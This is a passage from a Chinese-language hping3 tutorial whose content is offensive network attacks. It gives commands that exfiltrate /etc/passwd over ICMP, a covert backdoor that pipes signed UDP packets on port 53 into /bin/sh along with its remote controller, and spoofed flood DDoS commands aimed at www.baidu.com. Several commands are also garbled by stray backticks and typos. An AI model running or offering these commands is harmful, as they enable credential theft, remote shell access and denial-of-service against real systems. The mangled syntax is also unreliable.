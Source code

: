 ```
hping3 192.168.1.159 --listen signature --safe --icmp
```

监听ICMP包中的签名，根据签名解析出文件内容。 

在发送端使用签名打包的ICMP包发送文件：

```
hping3 192.168.1.108--icmp -d 100 --sign signature --``file` `/etc/passwd
```

将/etc/passwd密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)。

 

## 木马功能

如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与netcat的后门功能类似。

示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行。 

在木马启动端：

```
hping3 192.168.10.66 --listen signature --safe --udp -p 53 | ``/bin/sh
```

在远程控制端：

```
echo` `ls` `>``test``.cmd``hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --``file` `.``/test``.cmd
```

将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节。 

当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作。

 

## hping主要是进行DDOS攻击的

1、UDP ddos攻击：

```
hping3 -c 10000 -d 120 --udp -w 64 -p 80 --flood --rand-``source` `www.baidu.com
```

2、ICMP ddos攻击：

```
hping3 -c 10000 -d 120 --icmp -w 64 -p 80 --flood --rand-``source` `www.baidu.com
```

3、SYN ddos攻击：

```
hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-``source` `www.baidu.com
```

4、ACK ddos攻击：
